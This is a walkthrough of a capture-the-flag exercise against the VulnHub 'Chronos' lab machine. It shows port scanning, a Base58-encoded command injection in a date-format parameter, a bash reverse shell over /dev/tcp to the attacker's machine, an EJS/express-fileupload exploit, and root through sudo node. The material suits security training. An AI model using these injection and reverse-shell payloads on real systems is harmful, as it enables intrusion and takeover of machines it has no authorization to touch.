 Target: 10.0.0.35  
Difficulty: Medium  
Source: https://www.vulnhub.com/entry/chronos-1,735/  

## ***NMAP***

    $ nmap -sS -T4 -p- 10.0.0.35

    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

## ***HTTP | PORT 80 / 8000***

![image](https://user-images.githubusercontent.com/76552238/158429168-ed529255-c7e4-4c02-9a24-c130ed79fe61.png)

Going to http://10.0.0.35, we don't have functionally, comments or anything that might help us. Brute forcing the directories doesn't find anything either.
Going to the source code, we can find this line:

![image](https://user-images.githubusercontent.com/76552238/158429770-4cf517fd-3411-4ef8-a625-8721a065ac6d.png)

<!--http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL-->

Adding "10.0.0.35 chronos.local" to /etc/hosts and going to the specified url, it seems we don't have permission to access this page.

![image](https://user-images.githubusercontent.com/76552238/158429994-25ff75a7-3792-4f35-8d88-4d498b3af739.png)

Going to ***http://chronos.local:8000*** we can see that the date and time is being specified, probably the 'date' command used in Linux.

![image](https://user-images.githubusercontent.com/76552238/158430123-55936e80-45d4-47fe-84a2-6c0d7c4ea01f.png)

We can try to decode the string that is been passed in the url. Let's try decoding is using Base64.

    $ echo '4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL' | base64 -d

![image](https://user-images.githubusercontent.com/76552238/158430605-184d299d-3148-4fca-a773-375f7b79fd60.png)

This string isn't encoded using Base64. I found a site that find a message encoding. ***https://www.dcode.fr/cipher-identifier***

![image](https://user-images.githubusercontent.com/76552238/158430958-b9e8cbc4-ec91-4d0d-ac73-054b4cff151b.png)

Let's try to decode the string using Base58.

    $ echo '4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL' | base58 -d

![image](https://user-images.githubusercontent.com/76552238/158431092-b2e67916-b49f-4244-9bd2-276efe6efb43.png)

<!-- 4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL Base58 Decode: 
'+Today is %A, %B %d, %Y %H:%M:%S.' -->

    %A - Day
    %B - Month
    %d - day (number_
    %Y - Year
    %H - Hour
    %M - Minute
    %S - Second

Turns out, this string format can be used with the 'date' command in Linux.

    $  date '+Today is %A, %B %d, %Y %H:%M:%S.'

![image](https://user-images.githubusercontent.com/76552238/158431286-f1cf7685-ce61-4759-b782-2373c4b43e7a.png)

This means we can inject a command and start a reverse shell. Since we don't have permission to access ***'chronos.local:8000/data/'***, we can execute RCE from ***'chronos.local:8000'*** using the network tab in developer tools. Let try to run the 'ls' command on the machine.

    $ echo '; ls' | base58

    2WfAHp

![image](https://user-images.githubusercontent.com/76552238/158438588-81fcda71-42da-4b78-9edf-e307c17b11d5.png)


![image](https://user-images.githubusercontent.com/76552238/158438144-c9b15d18-c986-4395-9c72-f3984530c2f3.png)

By decoding ";bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1'" with Base58  and send it, we can open a reverse shell on our local machine.

    ;bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1'

    Base58 Encode:
    jSQFn3DG86mbq9wJvQ3UZztDFRqBaqKWp7w5ghvh2eChdyAGQsPJeHXYmg6ECpV2itHc

![image](https://user-images.githubusercontent.com/76552238/158438542-6771bc8f-6439-4248-b0fe-cdf8e31d8d74.png)

![image](https://user-images.githubusercontent.com/76552238/158438764-958f36cf-ee5d-4c60-bb02-459a3de38603.png)

### ***Local Machine:***

![image](https://user-images.githubusercontent.com/76552238/158438922-4757de8d-5962-4b6a-b681-543bc6f74885.png)

## ***PRIVILEGE ESCALATION***

We are logged in as the user 'www-data'. Going to the home directory we can find a user ---> 'imera'.

![image](https://user-images.githubusercontent.com/76552238/158439207-3eb42641-d777-4e8f-8908-0ae672dcd27b.png)

We don't have permissions to view the directory.  
At this point I got stuck for a bit, I searched for some exploits but found none. After some digging around I the directory **/opt/chronos-v2/backend** which seemed interesting.

![image](https://user-images.githubusercontent.com/76552238/158439432-1601e880-5e24-4229-aab6-72432b76a8b8.png)


### ***/opt/chronos-v2/backend/package.json:***

    "name": "some-website",
    "version": "1.0.0",
    "description": "",
    "main": "server.js",
    "scripts": {
        "start": "node server.js"
    },
    "author": "",
    "license": "ISC",
    "dependencies": {
        "ejs": "^3.1.5",
        "express": "^4.17.1",
        "express-fileupload": "^1.1.7-alpha.3"
    }

It stats that "express-fileupload" is being used. 'express-fileupload' is a way to upload and download files in Node.js. I of course searched if it has any vulnerabilities and found this github repository ***https://github.com/boiledsteak/EJS-Exploit***.

### ***Remote Machine:***

![image](https://user-images.githubusercontent.com/76552238/158442157-9d13699b-3230-4818-9096-bf743c7a83ba.png)

### ***Local Machine:***

![image](https://user-images.githubusercontent.com/76552238/158442263-96476c09-aae8-47da-a6eb-e09be4a554f5.png)

By downloading and executing the exploit on victim machine and listening on my local machine, we are able to get a reverse shell as the user 'imera'.

We now have permission to go the /home/imera directory and read 'user.txt'.

> ### ***/home/imera/user.txt:***                                                                                      
![image](https://user-images.githubusercontent.com/76552238/158442524-733ceedb-980a-4fea-a1d8-1f9122b14c8c.png)

Let's see if the user is part of the sudo group.

    $ sudo -l

    Matching Defaults entries for imera on chronos:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User imera may run the following commands on chronos:
        (ALL) NOPASSWD: /usr/local/bin/npm *
        (ALL) NOPASSWD: /usr/local/bin/node *

I searched online for 'linux node command privilege escalation' and found an article from GTFOBins ***https://gtfobins.github.io/gtfobins/node/***.

    $ sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'

![image](https://user-images.githubusercontent.com/76552238/158442877-5c81fb45-f0c7-40c2-945f-b038105b985a.png)

### ***/root/root.txt:***

![image](https://user-images.githubusercontent.com/76552238/158443013-5d4cdab7-d071-4b1b-8f8a-87a368ac43e9.png)
